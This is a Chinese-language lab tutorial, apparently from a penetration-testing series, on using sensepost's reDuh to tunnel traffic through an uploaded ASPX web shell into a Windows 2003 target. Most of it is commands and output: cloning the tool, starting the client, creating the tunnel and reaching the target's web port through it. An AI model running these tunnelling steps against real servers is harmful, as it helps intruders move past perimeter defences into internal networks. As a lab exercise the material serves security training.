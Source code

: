 

**reDuh简介：**

reDuh是sensepost由2008-07年发布，从本质上讲，可以将JSP/PHP/ASP/ASPX等页面上传到目标服务器，便可以访问该服务器后面的主机。

BlackHat USA 2008介绍：  
https://drive.google.com/open?id=1AqmtuBnHQJS-FjVHzJMNNWokda048By-

Github：  
https://github.com/sensepost/reDuh

**攻击机：**   
192.168.1.5 Debian  
192.168.1.4 Windows 7

**靶机：**   
192.168.1.119 Windows 2003

**安装：**
```bash
root@John:~# git clone https://github.com/sensepost/reDuh.git
Cloning into 'reDuh'...
remote: Enumerating objects: 47, done.
remote: Total 47 (delta 0), reused 0 (delta 0), pack‐reused 47
Unpacking objects: 100% (47/47), done.
root@John:~# cd reDuh/
root@John:~/reDuh# ls
README.markdown reDuhClient reDuhServers
```
![](/img/1baa9c1874d47e57ff19724c1e050dd8.jpg)

**靶机执行：**
以aspx为demo。

![](/img/853cde273f8ee0873156e9c624258201.jpg)

**攻击机执行：**  
绑定端口：
```bash
root@John:~/reDuh/reDuhClient/dist# java ‐jar reDuhClient.jar http://192.168.1.119/reDuh.aspx
[Info]Querying remote web page for usable remote service port
[Info]Remote RPC port chosen as 42000
[Info]Attempting to start reDuh from 192.168.1.119:80/reDuh.aspx. Using service port 42000. Please wait...
[Info]reDuhClient service listener started on local port 1010
```
![](/img/2596f6edba3d76db9a416b2011e8fb9b.jpg)

开启新terminal，建立隧道  
命令如下：  
[createTunnel][本地绑定端口]:  127.0.0.1:[远程端口]  
```bash
root@John:~# telnet 127.0.0.1 1010
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Welcome to the reDuh command line
>>[createTunnel]30080:127.0.0.1:80
Successfully bound locally to port 30080. Awaiting connections.
```
![](/img/9a14208cab4886588559a38d694a5cf1.jpg)

攻击机端口前后对比：
```bash
root@John:~# netstat ‐ntlp
Active Internet connections (only servers)
Proto Recv‐Q Send‐Q Local Address Foreign Address State PID/Program na me
tcp 0 0 0.0.0.0:902 0.0.0.0:* LISTEN 809/vmware‐authdlau
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 674/sshd
tcp6 0 0 :::902 :::* LISTEN 809/vmware‐authdlau
tcp6 0 0 :::22 :::* LISTEN 674/sshd
root@John:~# netstat ‐ntlp
Active Internet connections (only servers)
Proto Recv‐Q Send‐Q Local Address Foreign Address State PID/Program na me
tcp 0 0 0.0.0.0:902 0.0.0.0:* LISTEN 809/vmware‐authdlau
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 674/sshd
tcp6 0 0 :::902 :::* LISTEN 809/vmware‐authdlau
tcp6 0 0 :::1010 :::* LISTEN 6102/java
tcp6 0 0 :::22 :::* LISTEN 674/sshd
tcp6 0 0 :::30080 :::\* LISTEN 6102/java 
```
![](/img/525c8fec46511f49176e20b50a017226.jpg)

访问攻击机30080端口，既等价于访问靶机80端口
```bash
root@John:~# curl http://192.168.1.5:30080/
<html> 

<head>
<meta HTTP‐EQUIV="Content‐Type" Content="text/html; charset=gb2312"> 

<title ID=titletext>建设中</title>

</head> 

<body bgcolor=white> 

... 

</body>

</html>
```
![](/img/4594e609d339d06fe44ecf11a575c966.jpg)


遗憾的是reDuh年代久远，使用繁琐，并官方已停止维护。但是它奠定了HTTP隧道。

>   Micropoor
